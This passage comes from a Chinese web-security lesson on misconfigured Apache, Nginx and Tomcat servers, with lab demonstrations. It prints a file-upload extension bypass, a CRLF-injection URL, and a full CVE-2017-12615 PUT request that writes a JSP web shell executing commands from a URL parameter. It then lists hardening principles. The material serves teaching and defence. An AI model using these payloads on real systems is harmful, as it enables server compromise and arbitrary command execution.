

而这个配置会导致一定的安全隐患，接下来让我们借助一个示例，看看它会带来什么安全隐患吧。

在此之前，我们需要学习一下Apache的基本特性。



<strong>Apache是从前往后开始识别文件扩展名的</strong>，例如遇到文件test.php.xyz.jpg时，它会将PHP识别为文件的扩展名，从而根据之前的配置，选择用x-httpd-php来对它进行解析。

这样，我们就做好了所有的前期准备工作。下面，我们一起来看这个安全隐患。



这是一个文件上传靶场，由于我们将它的安全等级设为高，所以<strong>它可以成功拦截所有PHP后缀的文件</strong>，这样做可以防止攻击者上传PHP恶意文件，从而保护Web应用的安全。

但是我们可以将恶意PHP文件名设置为test.php.xyz.jpg，这样就能绕过文件上传检测，成功将这个文件上传到images文件中。

其中这个test.php.xyz.jpg的内容为：

<pre><code class="language-php">&lt;?php phpinfo();?&gt;
</code></pre>

之后，我们尝试对其进行访问，发现Apache服务器无法解析这一文件。所以这个Web应用目前是安全的，攻击者无法通过上传文件test.php.xyz.jpg去执行恶意的PHP代码。



如果我们在Apache的配置文件apache2.conf中加入这一项 <code>AddHandler application/x-httpd-php .php</code>。然后重启Apache2服务。



那么我们再次访问上传的文件，获得到的响应内容就变为如下：



这里可以看到，<strong>我们上传的恶意PHP代码已经被执行</strong>。这个Web应用不再安全。

在这个示例中，原本的Web应用是安全的，它成功拦截了以.php结尾的文件的上传，并且不允许用x-httpd-php来解析结尾不是.php的文件，这是无懈可击的，攻击者根本无法让这个Web应用去执行恶意PHP脚本。

可是，如果Web应用开发者，在配置文件中进行错误的配置，例如这里加上AddHandler application/x-httpd-php .php，就会使得Web应用可以用x-httpd-php来解析PHP类型的文件，就算它的结尾不是.php。这给了攻击者可乘之机，让Web应用处于危险之中。

到这里，你已经学完了Apache中的安全配置问题，这会让你对安全配置问题有更具体的理解。其实在Nginx中也会有安全配置问题，接下来我们就一起看看。

<h3 id="nginx配置安全问题">Nginx配置安全问题</h3>

Nginx是一个高性能的HTTP和反向代理Web服务器，我们可以在Unix以及Linux中运行它。它的应用非常广泛，我们熟知的百度、京东、新浪、网易以及腾讯都有使用到这款软件。



在使用这款软件时，我们必须正确的对它进行配置，否则容易导致一些安全问题。

例如，当Nginx配置不当，就会导致CRLF注入的发生。所谓CRLF其实就是两个字符，CR与LF，它们分别代表回车以及换行。事实上，在HTTP报文中，行与行之间使用的就是CRLF间隔。

接下来，为了帮助你更好地理解Nginx配置的安全问题，让我们一起来看一个示例吧。

下方代码是一个Nginx配置文件，你可能对它不太熟悉，不过不要着急，我会给你分析配置中的安全问题。

<pre><code class="language-plain">server {
       listen 8080;
       root /usr/share/nginx/html;
       index index.html;
       server_name _;
       location / {
       return 302 https://$host$uri;
   }
}
</code></pre>

在这个Nginx配置文件中，存在问题的配置在最后一行，我们只需要关注这一部分即可。

<pre><code class="language-plain">return 302 https://$host$uri;
</code></pre>

这行代码，可以使得原本对主机的HTTP的请求，跳转到HTTPS请求上。我们可以将其中的 <code>$host</code>，简单理解为原始请求中的host信息，而 <code>$uri</code> 则是安全问题产生的关键，它代表着请求中解码后的请求路径。你可能觉得这里并没有什么问题，<strong>可如果攻击者将请求的URL信息设置为如下：</strong>

<pre><code class="language-plain">http://ip:port/%0a%0dSet-Cookie:%20a=test
</code></pre>

这个URL中，%0a经过解码之后就是CR，%0d经过解码之后则为LF，%20解码之后对应为空格。所以Nginx在对$uri进行解码时，会将%0a%0d解码为CRLF，这会使得HTTP报文换行，然后发起Set-Cookie的请求，<strong>这就是CRLF注入的效果</strong>。

下面，我们一起看上述内容的实例。注意，这里靶场中的Nginx配置和上面图片中一致。



我们首先访问了127.0.0.1:8080服务，发现Nginx成功让页面跳转到HTTPS服务，并且页面中也没有cookie信息。其中这里页面显示无法访问此网站，这是因为靶场仅用来演示Nginx配置问题，并没有实际页面支撑，所以导致没有页面内容返回，但它对我们的测试不会造成影响。



接着，我们对这个Web应用发起攻击，对127.0.0.1:8080/%0a%0dSet-Cookie:%20a=test进行访问，结果发现页面同样跳转为HTTPS服务，不过此时多出了响应Cookie信息。<strong>这表明我们的CRLF注入成功，并且成功执行了Set-Cookie指令。</strong>

现在，你已经了解了Nginx配置相关的安全问题，知道了它其实就是由CRLF注入导致的。接下来，让我们继续学习Tomcat中的安全配置问题吧。

<h3 id="tomcat配置安全问题">Tomcat配置安全问题</h3>

首先，我们来了解下Tomcat是什么？

Tomcat 服务器是一个免费的开放源代码的Web应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用。实际上，Tomcat是Apache服务器的扩展，但运行时它是独立运行的，所以当你运行Tomcat时，它实际上是作为一个与Apache独立的进程单独运行。

在对它有了一定的了解之后，我们来对Tomcat做一些安全性分析。Tomcat中存在一个知名的安全配置问题，它就是CVE-2017-12615。具体的问题体现为，当Tomcat运行在Windows主机上，并且在conf/web.xml的配置文件中将DefaultServlet readonly设置为false，那么如果它启用了HTTP PUT请求方法，就会<strong>导致任意写文件的安全问题发生</strong>。

接下来，让我们通过实战，加深一下对Tomcat配置安全问题的理解吧。

首先，登录谜团（mituan.zone）并选择【Tomcat专题：CVE-2017-12615】靶机，如果你可以看到如下页面，那就成功打开了我们的靶场。



其次，我们要测试一下是否可以上传文件到服务器目录下。具体的实践方式为，使用BurpSuite拦截该网页，获取到如下报文：

<pre><code class="language-plain">GET / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
</code></pre>

然后我们将它进行修改为如下报文，并进行发送。

<pre><code class="language-plain">PUT /1.jsp/ / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

&lt;%
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
      int a = -1;
      byte[] b = new byte[2048];
      out.print("&lt;pre&gt;");
      while((a=in.read(b)) != -1){
                    out.println(new String(b));
            }
      out.print("&lt;/pre&gt;");
%&gt;
</code></pre>

修改后的报文，可以向Tomcat服务器尝试写入1.jsp文件。其中1.jsp文件的内容为报文下方&lt;% %&gt;内的部分。<strong>这部分的功能就是获取get方式上传的参数i，并将它当作命令去执行。</strong>

接下来，我们去测试尝试的攻击行为是否成功。访问路径 <code>/1.jsp?i= ls -l</code>，其中 <code>1.jsp</code> 就是我们刚刚写入的文件，而 <code>?i=ls -l</code>，这是通过get方式上传参数i，并将它的值设为 <code>ls -l</code>。



我们发现页面的响应为一些文件信息，<strong>这代表我们的 <code>ls -l</code> 命令运行成功，也代表这个Tomcat服务器存在安全配置问题。</strong>

到这里，我们已经知道安全配置错误的危害还是较为严重的，所以我们在设计一个Web应用时，要注意对安全配置错误的避免。接下来让我们进入到安全实践中，总结一下如何避免安全配置错误。

<h2 id="安全实践">安全实践</h2>

为了避免安全配置错误的发生，我们在配置Web应用时需要遵守几个原则。

第一个原则为<strong>最小服务原则</strong>，我们需要将Web应用不需要的服务进行关闭或限制，防止攻击者通过这些服务发起恶意行为。

第二个原则为<strong>通用化的报错设置</strong>，即我们需要将Web应用的报错信息设置得通用化，使得报错信息中不包含错误发生的细节信息，防止因此导致的敏感信息泄露。

第三个原则为<strong>修改默认账户信息</strong>，我们需要将Web应用默认的账户信息进行修改，尽量让账户密码变得复杂，否则攻击者很容易就会猜出账户信息，登陆进Web应用的管理后台。

<h2 id="总结">总结</h2>

在这节课程中，我们学习了安全配置错误。

首先，我们通过Django示例，来了解什么是安全配置错误。接着我们更加深入的对典型的Web应用安全配置问题进行了逐一的学习。

我们第一个学习的是Apache相关的安全配置问题。在对这一部分的学习中，我们通过上传一个扩展名复杂的文件，绕过了Web应用对于上传文件类型的检测过滤。然后再利用Apache配置不当的问题，使得这一文件被x-httpd-php解析成功。这样就使得攻击者可以实现任意PHP代码执行。

接下来，我们学习了Nginx相关的安全配置问题。在对它的学习中，我们了解到Nginx是一个高性能的HTTP和反向代理Web服务器。如果对于它的配置方式不当，就会使得CRLF注入的发生。然后我们通过示例，知道了攻击者可以通过CRLF注入进而实现对HTTP请求指令的设置。

接着，我们学习了Tomcat相关的安全配置问题，了解到如果对它的配置不当，就会产生任意写入文件问题。在实战部分中，我们还利用这个问题成功实现了任意命令执行操作。

最后，我们学习了如何抵御安全配置错误，了解到主要可以通过最小服务原则、通用化报错设置以及修改默认账户来提升我们Web应用的安全性。

<h2 id="思考题">思考题</h2>

除了这节课中提到的安全配置错误，你还能想到其他Web应用相关的安全配置错误吗？

欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！

© 2019 - 2023 <a href="/cdn-cgi/l/email-protection#335f5f5f0a070202030473545e525a5f1d505c5e" target="_blank">Liangliang Lee</a>.
                    Powered by <a href="https://github.com/gin-gonic/gin" target="_blank">gin</a> and <a href="https://github.com/kaiiiz/hexo-theme-book" target="_blank">hexo-theme-book</a>.

</body>

</head></html>